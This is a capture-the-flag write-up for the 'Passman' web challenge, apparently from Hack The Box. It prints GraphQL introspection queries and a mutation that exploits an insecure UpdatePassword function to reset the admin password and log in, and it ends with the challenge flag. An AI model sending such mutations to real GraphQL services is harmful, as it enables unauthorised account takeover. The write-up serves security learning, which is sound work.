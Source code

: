 # web - Passman

## Playing around to Query graphQL and see what we got although we got all the files..

`/graphql/?query=fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}`

After reviewing the files I notice a function to UpdatePassword and figured we can try to update the admin password and login:

This is the query from burp

```json
{"query":"mutation($username: String!, $password: String!) { UpdatePassword (username: $username, password: $password) { message, token } }","variables":{"username":"admin","password":"pwned"}}
```

I’ve also used a graphQL extension from Burp that helped me understand how we can query the mutation and update the password for the user admin, a very neat and useful tool for someone such as myself that was dealing with graphQL for the first time


![Untitled](https://user-images.githubusercontent.com/88723154/227416974-2861f6b8-1ebd-4a5c-9e2e-6f1a62d3f47a.png)

Final request from the above query from burp:

![Untitled 1](https://user-images.githubusercontent.com/88723154/227416988-a400d036-f4e1-400c-b545-9076ae12feb6.png)


More concise query for graphQL to see what are the objects, fields, and etc..

`/graphql?query={__schema{types{name,fields{name,args{name,description,type{name,kind,ofType{name,kind}}}}}}}`

And voila, we are in after we changed the password for the **admin and we get the flag!**


![Untitled 2](https://user-images.githubusercontent.com/88723154/227417001-a13eaaee-b70e-488c-95a7-34fd867e5c8b.png)

### flag: HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}
